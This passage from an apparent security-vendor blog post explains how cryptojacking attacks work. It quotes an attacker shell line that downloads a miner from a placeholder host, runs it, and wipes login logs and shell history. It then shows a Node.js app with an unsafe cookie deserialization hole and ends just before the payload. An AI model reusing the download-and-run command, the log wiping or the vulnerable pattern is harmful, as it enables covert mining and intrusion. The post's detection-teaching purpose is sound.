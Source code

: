     wget https://<someip>/7kvkJ/glibc-2.14.tar.gz --no-check-certificate -O /tmp/glibc-2.14.tar.gz && tar zxvf /tmp/glibc-2.14.tar.gz -C / && export LD_LIBRARY_PATH=/opt/glibc-2.14/lib:$LD_LIBRARY_PATH && /tmp/udevs -o stratum+tcp://<someip>:3333 -u <userid> -p pass --max-cpu-usage=50 --safe -B && echo "" > /var/log/wtmp && echo "" > /var/log/secure && history -c
    fi

This is very similar to the script we saw in our previous post on <a href="https://sysdigrp2rs.wpengine.com/blog/detecting-cryptojacking/" target="_blank" rel="noopener">detecting cryptojacking with Sysdig Secure</a>. So the attacker needs get the script onto a host and then execute the script, which is a perfect use case for `curl | bash`.

## Exploiting a Node.js Application {#exploitinganodejsapplication}

Our last post on cryptojacking focused on a misconfiguration causing the Kubernetes dashboard to be exposed. In this post we're going to focus on an application with a vulnerability that allows it to be exploited by a cryptojacking script. We decided to use a <a href="https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/" target="_blank" rel="noopener">Node.js exploit on unserialization and unsanitized inputs</a> of data. For more detail, you should read the OpsSecX linked blog post about the exploit. In short, it leverages a feature of Javascript known as an <a href="https://en.wikipedia.org/wiki/Immediately-invoked_function_expression" target="_blank" rel="noopener">Immediately invoked function expression</a> (IIFE). Given a sample application like below:

    var express = require('express');
    var cookieParser = require('cookie-parser');
    var escape = require('escape-html');
    var serialize = require('node-serialize');
    var app = express();
    app.use(cookieParser())
    
    app.get('/', function(req, res) {
     if (req.cookies.profile) {
       var str = new Buffer(req.cookies.profile, 'base64').toString();
       var obj = serialize.unserialize(str);
       if (obj.username) {
         res.send("Hello " + escape(obj.username));
       }
     } else {
         res.cookie('profile', "eyJ1c2VybmFtZSI6ImFqaW4iLCJjb3VudHJ5IjoiaW5kaWEiLCJjaXR5IjoiYmFuZ2Fsb3JlIn0=", {
           maxAge: 900000,
           httpOnly: true
         });
     }
     res.send("Hello World");
    });
    app.listen(3000);

This application takes data from the `profile` key stored in the cookie, and unserializes the value. Because the application doesn't sanitize the input from the cookie, we can pass in an immediately invoked function expression, and our code will run. Such a payload would look like the below.
